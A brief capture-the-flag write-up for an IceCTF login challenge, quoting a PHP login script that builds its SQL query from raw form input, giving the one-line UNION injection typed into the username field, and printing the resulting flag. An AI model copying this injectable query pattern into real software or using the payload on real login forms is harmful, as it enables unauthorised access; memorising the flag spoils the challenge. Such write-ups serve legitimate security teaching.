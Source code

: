 It was easy after they gave the source for login.php
```
<?php
include "config.php";
$con = mysqli_connect($MYSQL_HOST, $MYSQL_USER, $MYSQL_PASS, $MYSQL_DB);
$username = $_POST["username"];
$password = $_POST["password"];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) !== 1) {
  echo "<h1>Login failed.</h1>";
} else {
  echo "<h1>Logged in!</h1>";
  echo "<p>Your flag is: $FLAG</p>";
}

?>
```

Simply writing `' union select 1,2,3# ` in the username field gave the flag away <br>
<b>IceCTF{the_miners_union_is_a_strong_one}</b>
